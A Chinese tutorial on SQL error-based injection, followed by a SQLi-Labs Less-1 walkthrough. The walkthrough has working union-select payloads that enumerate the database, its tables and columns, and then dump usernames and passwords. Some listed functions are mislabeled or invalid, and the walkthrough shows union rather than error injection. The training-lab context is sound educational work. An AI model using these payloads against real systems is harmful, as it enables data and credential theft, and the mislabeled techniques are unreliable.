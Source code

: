 ## 一、SQL报错注入概述

1. SQL报错注入是指通过构造特定的SQL语句，让攻击者想要查询的信息（如数据库名、版本号、用户名等）通过页面的错误提示回显出来。
2. 报错注入主要利用执行的报错返回的信息来进行注入从而获得需要的信息。报错注入有许多的函数可以使用，例如floor(rand()*2)、updatexml、extractvalue等。

## 二、SQL报错注入常用的函数方法

1. SQL报错注入常用函数有以下几种： 
   - `floor(rand()*2)`：利用floor函数和rand函数产生主键重复的错误
   - `extractvalue(1,concat(0x7e, (select user()),0x7e))`：利用extractvalue函数和concat函数产生XPath语法错误
   - `updatexml(1,concat(0x7e, (select user()),0x7e),0)`：利用updatexml函数和concat函数产生XPath语法错误
   - `exp(~(select * from (select user())a))`：利用exp函数和取反运算符产生数学运算错误
   - `count(1,concat(0x7e, (select user()),0x7e))`：利用count函数和concat函数产生参数个数错误
   - `ascii(substr((select user()),1,1))=97`：利用ascii函数和substr函数产生布尔值错误

## 三、SQL注入靶场SQLi-Labs示例

1. SQLi-Labs是学习SQL注入的最经典的靶场，靶场源码地址[SQLi-Labs](https://github.com/Audi-1/sqli-labs)，搭建方法很简单，实在不会的话网上搜索一下即可
2. 建议结合浏览器插件HackBar进行手工注入练习

### Less-1

1.  打开Less 1的地址http://IP:PORT/Less-1，界面如下
![1.png](img/SQLi/error/1.png)
2.  输入参数id=1'，测试单引号，页面出现报错，报错显示数据库为MySQL
![2.png](img/SQLi/error/2.png)
3.  再加上and 1=1 --+和and 1=2 --+，发现页面回显不一样，确定存在SQL注入 
![3.png](img/SQLi/error/3.png)

![4.png](img/SQLi/error/4.png)
4.  先获取数据库字段数，参数值中加入order by命令，测试字段个数，直到页面回显报错出现unknown column 
```sql
?id=1' order by 3 --+
```

![5.png](img/SQLi/error/5.png)

![6.png](img/SQLi/error/6.png)

5.  成功获取到数据库字段数为3，然后再测试回显字段。当id为1时，数据库查询的是数据库中id=1的这一条数据，上面获取到的数据库中字段数为3，但可能并不是每一个字段都能够回显数据，所以我们需要把id改成一个不存在的值让数据库报错，从而获取到回显数据的字段，如下，成功获取回显字段2和3，接下来就通过字段2或者3来进行注入 
```sql
?id=-1' union select 1,2,3 --+
```

![7.png](img/SQLi/error/7.png)

6.  获取当前数据库名、版本、用户信息 
```sql
?id=-1' union select 1,user(),group_concat(database(),0x3a,version()) --+
```

![8.png](img/SQLi/error/8.png)

7.  如上所示，数据库名为security，版本为MySQL5.5.44，用户名为root。然后获取数据库security中的表名 
```sql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

![9.png](img/SQLi/error/9.png)

8.  如上所示，数据库security中有四个表，一般最重要的是存储了用户数据的users表，先获取user表的字段 
```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```

![10.png](img/SQLi/error/10.png) 

9.  如上，users表中存在三个字段：id、username、password，获取表中数据 
```sql
?id=-1' union select 1,2,group_concat(username,0x3a,password) from users --+
```

![11.png](img/SQLi/error/11.png)

10.  成功获取到表的数据 
